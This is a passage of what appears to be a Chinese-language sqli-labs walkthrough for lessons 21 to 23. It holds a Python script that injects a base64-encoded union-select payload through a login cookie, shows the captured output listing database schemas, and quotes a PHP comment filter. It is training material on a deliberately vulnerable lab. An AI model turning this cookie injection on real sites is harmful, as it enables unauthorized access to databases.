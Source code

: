 ### 21-22

和19-20相同，但是多了一层base64的处理。

```
import requests
import base64

url = "http://192.168.1.101/sqli-labs-master/Less-21/"

postDate = {
	'uname':'admin',
	'passwd':'admin'
}

headers = {
	'Host':'127.0.0.1',
	'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:50.0) Gecko/20100101 Firefox/50.0',
	'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
	'Accept-Language':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
	'Accept-Encoding':'gzip, deflate',
	'Referer':'http://127.0.0.1/Less-20/index.php',
	'Cookie':"uname="+base64.b64encode("\') union select 1,group_concat(schema_name),3 from information_schema.schemata-- "),
	'Connection':'keep-alive',
	'Upgrade-Insecure-Requests':'1',
	'Cache-Control':'max-age=0'
}

content = (requests.post(url, data=postDate, headers=headers).text)
print(content)
```

```
YOUR COOKIE : uname = JykgdW5pb24gc2VsZWN0IDEsZ3JvdXBfY29uY2F0KHNjaGVtYV9uYW1lKSwzIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnNjaGVtYXRhLS0g and expires: Sun 12 Jul 2020 - 04:18:49<br></font><font color= "pink" font size="5">Your Login name:information_schema,challenges,mysql,performance_schema,security,test<br><font color= "grey" font size="5">Your Password:3</font></b><br>Your ID:1<center><form action="" method="post"><input  type="submit" name="submit" value="Delete Your Cookie!" /></form></center><br><br><br><br>
```

22中闭合方式为双引号没有括号:



### 23

过滤了#、--+。特殊注释符号$;\%00$

```
//filter the comments out so as to comments should not work
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
```
